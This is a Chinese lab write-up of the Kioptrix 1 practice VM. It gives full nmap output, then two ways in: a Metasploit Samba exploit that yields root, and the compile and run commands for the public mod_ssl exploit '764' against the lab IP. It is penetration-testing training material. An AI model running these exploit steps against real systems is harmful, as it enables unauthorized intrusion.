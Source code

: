 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: 靶机 Kiotrix_1-writeup
# 设置作者
author: lhz
# 设置写作时间
time: 2022-03-21
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 靶机
comment: false

typora-root-url: ..\..\..\.vuepress\public

---
```


# 扫描

扫描IP，发现主机IP

192.168.56.104

扫描端口

`nmap -T5 -A -v -p- 192.168.56.104`

```
└─$ nmap -T5 -A -v -p- 192.168.56.104  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-21 00:14 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating Ping Scan at 00:14
Scanning 192.168.56.104 [2 ports]
Completed Ping Scan at 00:14, 0.00s elapsed (1 total hosts)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Initiating Connect Scan at 00:14
Scanning 192.168.56.104 [65535 ports]
Discovered open port 443/tcp on 192.168.56.104
Discovered open port 111/tcp on 192.168.56.104
Discovered open port 80/tcp on 192.168.56.104
Discovered open port 139/tcp on 192.168.56.104
Discovered open port 22/tcp on 192.168.56.104
Discovered open port 1024/tcp on 192.168.56.104
Completed Connect Scan at 00:14, 4.34s elapsed (65535 total ports)
Initiating Service scan at 00:14
Scanning 6 services on 192.168.56.104
Completed Service scan at 00:14, 11.01s elapsed (6 services on 1 host)
NSE: Script scanning 192.168.56.104.
Initiating NSE at 00:14
Completed NSE at 00:14, 10.42s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 1.15s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Nmap scan report for 192.168.56.104
Host is up (0.00031s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after:  2010-09-26T09:32:06
| MD5:   78ce 5293 4723 e7fe c28d 74ab 42d7 02f1
|_SHA-1: 9c42 91c3 bed2 a95b 983d 10ac f766 ecb9 8766 1d33
|_ssl-date: 2022-03-21T17:14:49+00:00; +12h59m59s from scanner time.
| http-methods: 
|_  Supported Methods: GET HEAD POST
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
|_http-title: 400 Bad Request
1024/tcp open  status      1 (RPC #100024)

Host script results:
|_clock-skew: 12h59m58s
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>

NSE: Script Post-scanning.
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.20 seconds

```

## 方法一

发现samba，使用smbclinet没有扫出来版本，使用msf扫描发现版本

![image-20220415181220010](/assets/img/image-20220415181220010.png)

搜索exp发现

![image-20220415181234735](/assets/img/image-20220415181234735.png)

使用msf利用



![image-20220415181245923](/assets/img/image-20220415181245923.png)

尝试payload，修改LHOST后利用成功，获得root权限

![image-20220415181255633](/assets/img/image-20220415181255633.png)

![image-20220415181300663](/assets/img/image-20220415181300663.png)

## 方法二

​	使用nikto扫描

![image-20220415181311227](/assets/img/image-20220415181311227.png)

发现mod_ssl存在问题，搜索exp

![image-20220415181318656](/assets/img/image-20220415181318656.png)

尝试使用764

还需要安装libssl-dev: 

```
apt-get install libssl-dev
```

编译764.c

```
gcc -o 764 764.c -lcrypto
```

执行exp

```
./764 0x6b 192.168.56.104 443 -c 50
```

因为网络问题，目标机无法下载COMMAND2下载提权代码，所以只获得apache权限，正常情况下可以直接获得root权限
